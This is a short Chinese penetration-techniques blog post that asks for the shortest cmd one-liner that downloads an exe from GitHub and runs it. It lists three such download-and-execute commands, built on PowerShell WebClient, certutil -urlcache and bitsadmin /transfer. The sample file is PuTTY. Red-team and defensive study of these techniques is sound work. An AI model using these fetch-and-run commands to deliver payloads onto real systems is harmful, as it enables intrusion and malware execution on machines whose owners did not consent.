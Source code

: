 ```yaml
---
layout: post
title: 渗透技巧——从github下载文件的多种方法
---
```



## 0x00 前言
---

本文源于一个有趣的问题：

已知exe文件：https://github.com/3gstudent/test/raw/master/putty.exe

Windows环境，需要将该exe释放到指定目录并执行，例如`c:\download`

**问：**`通过cmd实现的最短代码是多少字符？`


## 0x01 简介
---

本文将要介绍以下内容：

- 通过cmd实现从github下载文件的方法汇总
- 选出最短代码的实现方法


## 0x02 分析
---

在之前的文章《渗透技巧——通过cmd上传文件的N种方法》对通过命令行下载文件的方法做了汇总

而github支持https协议，并不支持http协议，所以在利用上需要注意一些问题，有些方法不支持http协议

## 0x03 可用方法汇总
---

### 1、powershell

`powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\download\a.exe');start-process 'c:\download\a.exe'`

### 2、certutil

`certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\download\a.exe&&c:\download\a.exe`

### 3、bitsadmin

`bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\download\a.exe && c:\download\a.exe`
